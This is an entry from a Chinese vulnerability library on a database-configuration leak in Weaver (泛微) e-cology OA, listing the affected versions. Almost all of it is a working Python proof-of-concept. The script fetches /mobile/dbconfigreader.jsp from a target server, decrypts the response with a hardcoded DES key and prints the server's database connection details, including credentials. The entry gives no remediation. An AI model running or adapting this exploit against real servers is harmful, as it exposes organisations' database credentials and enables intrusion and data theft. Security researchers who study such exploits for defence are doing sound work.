 ```yaml
---
title: '泛微OA数据库配置信息泄漏'
date: Sun, 30 Aug 2020 04:06:36 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 影响版本

目前已知为8.100.0531，不排除其他版本，包括不限于EC7.0、EC8.0

### 漏洞验证POC

```
# -*- coding:utf-8 -*-
#Author:print("")
import pyDes,requests
import sys
def desdecode(secret_key,s):
    cipherX = pyDes.des('        ')
    cipherX.setKey(secret_key)
    y = cipherX.decrypt(s)
    return y
default_headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36'
}
def send(url):
    data = requests.get(url='%s/mobile/dbconfigreader.jsp'%url).content
    return (desdecode('1z2x3c4v5b6n', data.strip()))

if __name__ == '__main__':
    url = sys.argv[1]
    print('泛微e-cology OA 数据库配置信息泄漏漏洞')
    print('url--->%s'%url)
    print('数据库信息如下----->:%s'%send(url)) 
```

![](https://www.bylibrary.cn/wp-content/uploads/2020/08/泛微.png)